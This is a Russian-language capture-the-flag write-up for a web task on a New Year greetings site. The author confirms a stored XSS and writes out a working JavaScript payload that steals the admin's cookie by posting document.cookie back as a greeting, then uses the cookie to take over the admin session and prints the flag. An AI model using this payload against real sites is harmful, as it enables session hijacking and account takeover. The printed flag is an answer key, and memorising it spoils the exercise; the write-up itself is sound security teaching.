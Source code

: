# Web
## [2.2] Новогоднее поздравление
 > У нас же новый год, верно?
 > Так как в текущих условиях нельзя поздравлять лицом-к-лицу, то мы создали сервис, на котором вы можете отправлять приглашения друг-другу!

 > Говорят, что у админа есть особое поздравление для вас... Только он его отдавать почему-то не хочет. Но с радостью открывает ссылки в поздравлениях для него. 84.201.172.73:12004

 > Кто решит данный таск получит отдельную 5+ с большим коэффициентом. Hint1: Вам нужно получить куку админа. Для этого вспомните все, что мы проходили и пересмотрите задачи на requests, один из сайтов вам поможет.

Категория: `web` `not_easy`

### Решение
Регистрируюсь на сайте. 

Решил протестировать систему приема сообщений на уязвимость XSS. Закинул тестовый payload себе в поздравления:

![01ff57a79a0dcad0b6ea900974bdbff2.png](test_xss.png)

Если на сайте присутствует уязвимость XSS, то мой код выполнится и слово "Получилось" будет красным.

![c1952e4ca063fe04ea7147ae74a0c93b.png](xss_successful.png)

Получилось.

Попробую составить код на javascript, который сворует куки чужого браузера (`document.cookies`) и с помощью POST запроса отправит мне в поздравления.

Смотрю на запрос отправки сообщения:

![d0e63b832fa8e679ec6de31fb215b334.png](post_request.png)

Поле `username` используется для указания ника собеседника, `congr` для указания самого сообщения.

Получившийся XSS код:

```html
<script>var req = new XMLHttpRequest();req.open("POST", "http://84.201.172.73:12004/congr");req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");req.send("username=test&congr="+encodeURIComponent(document.cookie));</script>
```
Тестирую на себе:

![58520ebb793637c0a39e027f02d1a2b8.png](test_xss_payload.png)

![8ee3a460d9ed68237c0bbb55d90f535e.png](xss_payload_test_successful.png)

Работает!

Отправляю админу:

![6dedd39a049aa10e189e4f572d42f2ed.png](send_payload_to_admin.png)

![7fcc9160723edca6e84af57a1e588130.png](admin_cookies.png)

Получил куки, подставил.

![417f816693ec6c84653fe17531d90468.png](cookies.png)

![f07417e63fc409536b22212ef69b17b0.png](admin_panel.png)

`Имя: admin Админ: True` - Я под админом.

Здесь веб за 50.

![14f19ae3737ef24942ed5606b40938a2.png](flag.png)

Все.
### Флаг
`mshp{n3w_y34r_styl3d_xx5_5xpl0iting_i5_s0_funny}`

